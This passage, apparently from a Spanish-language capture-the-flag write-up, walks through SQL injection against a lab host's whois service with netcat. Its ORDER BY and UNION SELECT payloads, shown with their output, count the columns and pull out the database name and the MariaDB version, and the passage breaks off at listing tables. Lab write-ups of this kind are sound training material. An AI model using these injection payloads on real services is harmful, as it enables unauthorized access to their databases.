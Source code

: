 Como vemos que no puede ordenarnos la query por la columna 100 quiere decir que no hay 100 columnas. Investigamos 
para encontrar cuantas columnas hay.

```bash
nc 10.10.10.155 43
') ORDER BY 4#
#Output
Unknown column '4' in 'order clause'

nc 10.10.10.155 43
') ORDER BY 3#
#Output
Unknown column '3' in 'order clause'

nc 10.10.10.155 43
') ORDER BY 2#
#Output
% This query returned 0 object
```

Ya vemos aqui que hay dos columnas. Podemos aplicar un **UNION SELECT** para ver las etiquetitas a traves de las cuales
podemos injectar los datos con queries.

```bash
nc 10.10.10.155 43
') union select 1,2#
#Output
% This query returned 1 object
1
```

Vemos aqui que injectaremos por la data 1.

1. Qual es la base de datos

    ```bash
    nc 10.10.10.155 43
    ') union select database(),2#
    #Output
    % This query returned 1 object
    whois
    ```

1. Qual es la version

    ```bash
    nc 10.10.10.155 43
    ') union select version(),2#
    #Output
    % This query returned 1 object
    10.1.37-MariaDB-0
    ```

1. Qual son las tablas de la base de datos whois
